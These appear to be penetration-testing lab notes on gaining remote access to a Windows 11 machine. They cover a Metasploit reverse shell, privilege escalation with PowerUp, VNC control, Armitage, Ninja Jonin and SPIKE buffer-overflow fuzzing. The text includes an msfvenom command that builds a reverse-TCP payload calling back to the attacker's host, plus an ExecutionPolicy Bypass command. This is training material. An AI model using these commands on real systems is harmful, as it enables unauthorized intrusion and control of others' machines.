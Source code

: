 This task demonstrates the exploitation procedure enforced on a weakly patched Windows 11 machine that allows you to gain remote access to it through a remote desktop connection.

Here, we will see how attackers can exploit vulnerabilities in target systems to establish unauthorized VNC sessions using Metasploit and remotely control these targets.

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe`  : This command creates TCP Reverse Shell .exe file


We uploaded a File to the target system using the command : `upload /root/PowerSploit/Privesc/PowerUp.ps1`
PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.

`powershell -ExecutionPolicy Bypass -Command “. .\PowerUp.ps1;Invoke-AllChecks”` - Attackers exploit misconfigured services such as unquoted service paths, service object permissions, unattended installs, modifiable registry autoruns and configurations, and other locations to elevate access privileges. After establishing an active session using Metasploit, attackers use tools such as PowerSploit to detect misconfigured services that exist in the target OS.

Then on typing `run vnc` the Windows Screen with GUI will appear to your Linux.

##### Gain Access to a Remote System using Armitage
Armitage is a Pentesting Software on Linux.
We're using Intense NMAP Scan in it. Using Armitage we can directly create a Windows - Meterpreter_Reverse_Tcp Attack and save it as an `.exe` file and then on running multi/handler - Meterpeter_Reverse_TCP Shell at same LPORT and running the file on the Target Machine, then we can simply gain the access of the system.

##### Gain Access to a Remote System using Ninja Jonin
Ninja Jonin is a combination of two tools; Ninja is installed in victim machine and Jonin is installed on the attacker machine. The main functionality of the tool is to control a remote machine behind any NAT, Firewall and proxy.

Changing the Jonin/config/constant.json by changing the Name to `Server22` and host to `Attacking Machine IP` then sending that to preferred victim and then connecting it to Ninja on the Attacking Machine.

##### Perform Buffer Overflow Attack to Gain Access to a Remote System
A buffer is an area of adjacent memory locations allocated to a program or application to handle its runtime data. Buffer overflow or overrun is a common vulnerability in applications or programs that accept more data than the allocated buffer. This vulnerability allows the application to exceed the buffer while writing data to the buffer and overwrite neighboring memory locations. Further, this vulnerability leads to erratic system behavior, system crash, memory access errors, etc. Attackers exploit a buffer overflow vulnerability to inject malicious code into the buffer to damage files, modify program data, access critical information, escalate privileges, gain shell access, etc.

type generic_send_tcp 10.10.1.11 9999 stats.spk 0 0 and press Enter to send the packages to the vulnerable server.

Here, 10.10.1.11 is the IP address of the target machine (Windows 11), 9999 is the target port number, stats.spk is the spike_script, and 0 and 0 are the values of SKIPVAR and SKIPSTR.
